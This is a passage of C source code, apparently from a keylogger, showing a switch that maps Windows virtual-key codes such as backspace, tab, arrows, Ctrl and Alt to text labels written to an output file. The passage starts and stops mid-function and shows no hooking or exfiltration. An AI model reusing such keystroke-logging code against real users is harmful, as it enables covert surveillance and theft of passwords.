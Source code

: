                 fprintf(OUTPUT_FILE, "ç");
                break;
            }
        }
    }

    switch (key_stroke)
    {
    case 8:
        fprintf(OUTPUT_FILE, "[BACKSPACE]");
        break;
    case 13:
        fprintf(OUTPUT_FILE, "\n");
        break;
    case 32:
        fprintf(OUTPUT_FILE, " ");
        break;
    case VK_TAB:
        fprintf(OUTPUT_FILE, "[TAB]");
        break;
    case VK_ESCAPE:
        fprintf(OUTPUT_FILE, "[ESCAPE]");
        break;
    case VK_END:
        fprintf(OUTPUT_FILE, "[END]");
        break;
    case VK_HOME:
        fprintf(OUTPUT_FILE, "[HOME]");
        break;
    case VK_LEFT:
        fprintf(OUTPUT_FILE, "[LEFT]");
        break;
    case VK_UP:
        fprintf(OUTPUT_FILE, "[UP]");
        break;
    case VK_RIGHT:
        fprintf(OUTPUT_FILE, "[RIGHT]");
        break;
    case VK_DOWN:
        fprintf(OUTPUT_FILE, "[DOWN]");
        break;
    /*
    case 190 || 110:
    fprintf(OUTPUT_FILE, ".");
    break;*/

    /* */
    case VK_CANCEL:
        fprintf(OUTPUT_FILE, "[Cancel]");
        break;
    case VK_LCONTROL:
        fprintf(OUTPUT_FILE, "[LCtrl]");
        break;
    case VK_RCONTROL:
        fprintf(OUTPUT_FILE, "[RCtrl]");
        break;
    case VK_LMENU:
        fprintf(OUTPUT_FILE, "[LAlt]");
        break;
    case VK_RMENU:
        fprintf(OUTPUT_FILE, "[RAlt]");
        break;
    case VK_LWIN:
        fprintf(OUTPUT_FILE, "[LWindows]");